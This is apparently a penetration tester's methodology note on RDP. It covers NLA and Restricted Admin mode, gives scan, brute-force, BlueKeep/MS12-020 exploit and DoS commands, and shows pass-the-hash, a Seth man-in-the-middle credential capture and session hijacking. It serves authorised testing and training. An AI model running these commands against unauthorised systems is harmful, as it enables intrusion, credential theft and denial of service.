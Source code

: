 # RDP - Methodology

### Overview

The `Remote Desktop Protocol (RDP)` is a proprietary protocol developed by
Microsoft, which provides a user with a graphical interface to connect to
another computer over a network connection. The user employs `RDP` client
software for this purpose, while the other computer must run a `RDP` server
software.

`RDP` authentication mechanism rely on Windows local or Active Directory domain
credentials.

###### Network Level Authentication NLA

`RDP` may uses `Network Level Authentication (NLA)`, introduced in `RDP 6.0`
and supported initially in Microsoft Windows Vista / Windows Server 2008, which
requires the connecting user to authenticate before a session is established
with the server and prevents the use of resources on the server from the load
of the graphical login screen.

###### Restricted Admin mode

The `Restricted Admin mode` is a security feature introduced in the Microsoft
Windows 8.1 and Server 2012 R2 operating systems. The feature has been
backported to Windows 7 and Server 2008.

`Restricted Admin mode` prevents the connecting user's credentials to be stored
on the remote host by transforming the logon to a `network logon` (`Type 3`)
instead of a `remote interactive logon` (`Type 10`). Indeed, for
`remote interactive logon`, the plaintext password is provided and the user's
credentials are stored in the `LSASS` process of the remote host. In
`Restricted Admin mode`, no form of credentials (plaintext password, `LM` /
`NTLM` hashes or `kerberos` `TGT`) are stored on the remote host.

`Restricted Admin mode` must be enabled on the remote host
(`DisableRestrictedAdmin` registry key to (`REG_DWORD`) `0` which is not the
case by default) and the client must connect in `Restricted Admin mode` (for
example: `mstsc.exe /restrictedAdmin`). Note that enabling `Restricted Admin
mode` allow `Pass-the-hash` authentication over `RDP`.

Only members of the local `Administrators` group may authenticate in
`Restricted Admin` mode and the network identity (for remote access over the
network) of the `RDP` session will, by default, be authenticated using the
`RDP` host machine account. This authentication using the `RDP` host machine
account can be disabled by setting the `DisableRestrictedAdminOutboundCreds`
registry key to (`REG_DWORD`) `1`.

### Network scan

`Nmap` and the `Metasploit`'s `auxiliary/scanner/rdp/rdp_scanner` module can be
used to scan the network for `RDP` services.

`Nmap`'s service and default `RDP` scripts scan may allow for the retrieval of
information about the hosts (`NetBIOS` / `DNS` hostname, Windows product
version, `SSL` / `TLS` subject and issuer, etc.). `Metasploit`'s
`auxiliary/scanner/rdp/rdp_scanner` module will check whether or not `NLA` is
enabled.

```
nmap -n -Pn -v -p 3389 -sV -sC -oA <NMAP_OUTPUT> <RANGE | CIDR>

msf > use auxiliary/scanner/rdp/rdp_scanner
msf auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS <HOSTNAME | IP | CIDR | file:<PATH>>
```

### Authentication brute force

The local or Active Directory domain account lockout policies apply
(depending on the type of authentication tried) when connecting in `RDP`.
Vertical brute forcing may thus not be possible.

However, horizontal `RDP` brute forcing can be used for lateral movement once
an account has been compromised. Indeed, the compromised account may not be a
member of the local `Administrators` group (and thus can not connect through
`PsExec` like tool for example) but can be a member of the `Remote Desktop
Users` group.

`Patator`, `Hydra` or the `crowbar` Python Script can be used to brute force
`RDP` access. `Patator` and `crowbar` both support `NLA` (as of December 2018,
`Hydra` does not support no NLA RDP brute force).

```
python crowbar.py -b rdp (-u <USERNAME | <DOMAIN\\USERNAME> | -U USERNAME_FILE) (-c <PASSWORD> | -C <PASSWORDS_LIST) -s <CIDR>

hydra -t 1 -V -l <USERNAME> (-p <PASSWORD> | -P <PASSWORDS_LIST) rdp://<IP | HOST>
```

### Known vulnerabilities

`nmap` can be used to check for the `CVE-2012-0002` / `MS12-020` exploit.
The `Metasploit`'s `auxiliary/scanner/rdp/cve_2019_0708_bluekeep` module and
`rdpscan` can be used to scan for `BlueKeep` / `CVE-2019-0708`.

```
# BlueKeep CVE-2019-0708
msf> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
# set RHOSTS file:<PATH>
# set THREADS <THREADS_NUMBER>

rdpscan.exe --file E:\Keolis\1-Wales\1-Pentest\hosts\IP.txt

# CVE-2012-0002 / MS12-020
nmap -v -p 3389 --script rdp-vuln-ms12-020 <HOST>
msf> use auxiliary/scanner/rdp/ms12_020_check
```

###### BlueKeep CVE-2019-0708

An heap corruption can occur in the RDP protocol that allows for arbitrary code
execution at the system level pre-authentication.

Microsoft identified the following Windows versions as vulnerable:
  - Windows XP
  - Windows Vista
  - Windows 7
  - Windows Server 2003
  - Windows Server 2008
  - Windows Server 2008 R2

Windows versions newer than Windows 7 and Windows Server 2012 are not vulnerable.

The `Metasploit` module `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` can be
used to exploit the vulnerability. Note that the exploit is not yet polished.

```
msf> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

###### CVE-2012-0002 / MS12-020

The `CVE-2012-0002` / `MS12-020` vulnerability can be used both to realize a
Denial Of Service and remotely execute code on the target.

The `Metasploit`'s `auxiliary/dos/windows/rdp/ms12_020_maxchannelids` may be
used to realize a `DoS` of the target:

```
msf> use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

As of December 2018, no public proof-of-concept code that results in remote
code execution is available.

### RDP clients

###### Windows

On Windows, the default `Microsoft Remote Desktop` application
("Connexion Bureau à distance") or the `Remote Desktop Manager` third party
application can be used as `RDP` clients.

The `Remote Desktop Manager` allows for the configuration and storing of
multiples `RDP` connection (host and authentication information). A free
edition is available as well as a commercial grade enterprise edition.

###### Linux

On Linux, `FreeRDP` (`xfreerdp`), `rdesktop` or `Remmina` (GUI) can be used as
`RDP` clients.

```
xfreerdp /u:'<DOMAIN | WORKGROUP>\<USERNAME>' /p:'<PASSWORD>' /v:<HOSTNAME | IP>[:<PORT>]
# No NLA for host that do not require NLA.
xfreerdp -sec-nla /v:<HOSTNAME | IP>
xfreerdp -sec-nla /u:'<DOMAIN | WORKGROUP>\<USERNAME>' /p:'<PASSWORD>' /v:<HOSTNAME | IP>
# Restricted admin mode.
xfreerdp /restricted-admin /u:'<DOMAIN | WORKGROUP>\<USERNAME>' /p:'<PASSWORD>' /v:<HOSTNAME | IP>

rdesktop -d '<DOMAIN | WORKGROUP>' -u '<USERNAME>' <HOSTNAME | IP>[:<PORT>]

Remmina
```

### Pass-the-hash over RDP

`FreeRDP` can be used to authenticate using the hash through RDP against hosts
using the `Restricted Admin mode` feature.

```
xfreerdp /u:'<DOMAIN | WORKGROUP>\<USERNAME>' /pth:<HASH> /v:<HOSTNAME | IP>
```

### Man-in-the-middle attack

`Seth` is a tool written in Python and Bash to MitM `RDP` connections that
attempts to downgrade the connection in order to extract clear text credentials.

`Seth` can be used regardless if `Network Level Authentication (NLA)` is
enabled or not on the targeted `RDP` host.

`Seth` will notably:
  - Spoof `ARP` replies to redirect traffic from the victim host to the
    attacker machine and then to the target RDP server.
  - Configure an `iptable` rule to reject `SYN` packet to prevent direct `RDP`
    authentication.
  - Clone the `SSL` certificate (only replacing the public key and signature)
  - Block traffic to port 88 to downgrade `Kerberos` authentication to `NTLM`.

Note that the user will be presented with a certificate error warning that must
be accepted before the clear text credentials are sent.

In case of a successful attack:

  - Clear text credentials of the user login in are obtained
  - A command can be executed on the targeted host
  - Victim keyboard inputs are retrieved

```
# Unless the RDP host is on the same subnet as the victim machine, the last IP address must be that of the gateway.
# The COMMAND is executed on the RDP host by simulating WIN+R
# The COMMAND should not contains special characters (powershell -enc <STRING> can be used)

seth.sh <INTERFACE> <ATTACKER_IP> <VICTIM_IP> <GATEWAY_IP | HOST_IP> [<COMMAND>]
```

### Session Hijacking

If `Administrator` / `NT AUTHORITY\SYSTEM` privileges could be obtained on a
host, `RDP` sessions of others users can be hijacked. This could be used to
access the host as the hijacked user through a GUI interface with out knowing
its password.  

To hijack `RDP` session refer to the `[Windows] Post Exploitation` note.
